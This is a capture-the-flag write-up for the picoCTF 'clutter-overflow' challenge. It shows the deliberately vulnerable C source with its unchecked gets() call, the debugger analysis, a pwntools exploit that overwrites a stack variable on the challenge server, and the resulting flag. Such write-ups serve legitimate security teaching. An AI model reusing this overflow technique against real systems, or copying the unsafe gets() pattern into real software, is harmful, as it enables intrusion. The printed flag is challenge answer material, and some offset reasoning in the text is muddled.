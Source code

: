 # clutter-overflow
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Clutter, clutter everywhere and not a byte to use. 
`nc mars.picoctf.net 31890`

> Challenge Endpoints

[FILE 1](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.c)
[FILE 2](https://github.com/jon-brandy/CTF-WRITE-UP/blob/96af015d1549822d4b32c853d0fc081954537bcd/Asset/clutter-overflow/chall.pdf)

## HINTS:
- NONE
## STEPS:
1. First, download both file given.
2. Then let's check the file type of the `chall` program.

![image](https://user-images.githubusercontent.com/70703371/185035005-c7a9a63f-ea81-4780-a5f0-2e670c4b8456.png)

3. It's an ELF 64 Bit and thx God it's not stripped, so we would be able to see function names.
4. Next, i run `checksec` to see what kind of binary protections are enabled.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185035183-248594a0-cc16-47ec-8eb3-692ec47125a9.png)

5. Since there's no canary found so we may do bufferoverflow, notice **NX is enabled** so if we inject code, we can't execute it. **PIE** is also disabled, so each time the binary loads it load at the same location in memory.
6. Now let's view the source code.

> chall.c

```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

7. Notice there's a vuln here, where we can do buffer overflow.

![image](https://user-images.githubusercontent.com/70703371/185035940-9ac136f3-5b71-43d8-bdd9-50d715f3c453.png)

8. Since the string input is not specified -> `gets` not `fgets`.
9. Also we may get the `flag.txt` if we meet this conditions.

![image](https://user-images.githubusercontent.com/70703371/185036242-626aa7af-d749-4876-935a-bd2d586bc8f1.png)

> If the code variable has the same size as GOAL -> 0xdeadbeef, got the flag.

10. Next, let's open `gdb` to check out the bufferoverflow and see where the offset is at.
11. Now enter `disass main`.

![image](https://user-images.githubusercontent.com/70703371/185041129-64e1dd84-b861-4d7b-a2af-aff73c5be1a8.png)


> NOTES:

```
SIZE -> 0x100 = 256. To buffer it let's input more thatn 256 bytes.
```


12. Let's input `300` characters.
13. To simplified that i made the `.c` program.


```c
#include <stdio.h>

int main(void)
{
    char a = 'A';
    for(int i = 1; i <= 300; i++)
    {
        printf("%c", a);
    }

    return 0;
}
```


14. Copy the output.
15. Now enter `run` at your `pwndbg` terminal.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042312-2c31de6b-d6c5-4a6f-9956-dc58e92e7e3b.png)

16. Paste the output.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185042370-663e2a4e-4fb5-442c-b0d0-841e2392ebaf.png)

![image](https://user-images.githubusercontent.com/70703371/185042391-945fbea6-4172-4cb5-9390-3b3e8adca532.png)

17. The program crashed, because we just overflown the buffer.
18. Notice here, the program knowledged that the input we enter is equal to this.

![image](https://user-images.githubusercontent.com/70703371/185042736-2ed627da-59e2-494c-a605-ba6a6eef21a1.png)

19. Not the `deadbeef`.
20. Let's open the program file in IDA.

![image](https://user-images.githubusercontent.com/70703371/185046700-02658b5a-6fea-445f-bed7-97c0ed980e88.png)

21. Press `f5` to decompile it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/185046743-26932b91-d873-4f51-bd90-9dbe402d72d2.png)

22. Hmm.. The size changed to 264 and not 256.

![image](https://user-images.githubusercontent.com/70703371/185046800-933d07b2-7608-42dd-90da-651af7d9fb6c.png)

23. Kinda confused here.
24. Now let's jump to `rsp+0h`.

> STACK

![image](https://user-images.githubusercontent.com/70703371/185046984-45d6369d-cbd1-4e4f-b98b-71af1ee0f37c.png)

25. Seems the correct bytes to do buffer overflow is 264 + 8 + 8 -> 280 bytes.
26. For this solution i made a python script using `ret2win` concept.

```py
from pwn import *

offset = 0x108 # 264

payload = flat(b'A' * offset, 0xdeadbeef)

sh = remote('mars.picoctf.net', 31890)

sh.sendlineafter('see?\n', payload)

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/185056804-d79fdbb9-e136-44fa-af56-f2f1a4ed6353.png)


27. Finally, we got the flag!

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```


## REFERENCES:

```
https://int0x33.medium.com/day-1-rop-emporium-ret2win-64bit-bb0d1893a3b0
https://0xrick.github.io/binary-exploitation/bof1/
```

